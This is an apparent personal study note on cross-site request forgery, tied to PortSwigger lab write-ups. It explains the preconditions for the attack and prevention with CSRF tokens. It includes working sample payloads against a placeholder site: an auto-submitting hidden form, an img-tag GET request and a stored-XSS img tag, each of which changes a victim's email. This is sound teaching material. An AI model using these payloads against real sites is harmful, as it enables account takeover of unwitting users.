 # What is CSRF ? 
It's a web security vulnerability that allows attacker to make users perform actions unintentionally.

# 3 Must Have for CSRF
1. **A proper action that is special to user** (email change, password change, username change ...)
2. **Cookie based session management.** (CSRF exists because browser put cookies automatically. If we don't have any cookie, then we can't talk about CSRF)
3. **No unpredictable tokens or parameters** (This is why CSRF Token is being used to prevent CSRF, if there is a parameter that you can't predict to make the functionality work, then you can't craft a malicious website that'd perform CSRF)

### Same Origin Policy
![[Pasted image 20220711093654.png]]

In order to have a better understanding of CSRF, let's give an example:

This is the user's request in order to change email.
```HTTP
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 30 
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE 

email=wiener@normal-user.com
```

And this is the attacker's website:
```HTML
<html> 
	<body> 
		<form action="https://vulnerable-website.com/email/change" method="POST"> 
			<input type="hidden" name="email" value="pwned@evil-user.net" />
		</form> 
			<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

Whenever user visits attacker's webpage browser will make a POST request to email change endpoint with given parameter value. Since protocol, domain name and endpoint is valid, browser'll put Cookie value in request **(assuming SameSate is not used)**. And attacker will change email of victim. 

Btw, if you need to make a GET request, then you can use **img** tag. Note that code below, does make a GET request however it also redirects you to google.com. 
```html
<html>
    <body>
        <form action="https://www.google.com" method="get">
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

So if you just make a GET request in background, use following code:
```html
<html>
    <body>
        <img src="http://<source-you-wanna-make-get-request>" onerror="alert(`request have been made`)">

    </body>
</html>```

# Lab: CSRF vulnerability with no defenses
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-1-b3a484dd5372)

---
# XSS and CSRF
We can combine CSRF with XSS, so we don't need to redirect users to external sources. Let's say webpage is vulnerable to **Stored XSS**. Then attacker can place following XSS payload into vulnerable section and wait for users to visit that page.

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

This XSS will change the victim's email as `pwned@evil-user.net`. 

However it's important to note that if we're talking about **reflected XSS** and if **CSRF Token** is being used properly. Then we can't do the same thing that we've done in stored XSS part since we can't predict CSRF Token.

# Preventing CSRF
The best way to prevent CSRF is using a CSRF Token. CSRF Token must be:
* **Unpredictable**
* **Tied with Session**
* **And validated before every user action**

# Lab: CSRF where token validation depends on request method
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-2-52d6b1433c3f)

---
# Lab: CSRF where token validation depends on token being present
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-3-798b1524c449)

---
# Lab: CSRF where token is not tied to user session
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-4-5e7cb526d791)

---
# Lab: CSRF where token is tied to non-session cookie
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-5-b3482e160a8b)

---
# Lab: CSRF where token is duplicated in cookie
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-6-794d867a5ff4)

---
# Lab: CSRF where Referer validation depends on header being present
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-7-a90f9ad29ecd)

---
# Lab: CSRF with broken Referer validation
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-8-4865a07b4c33)

# Mindmap
![[CSRF 1.png]]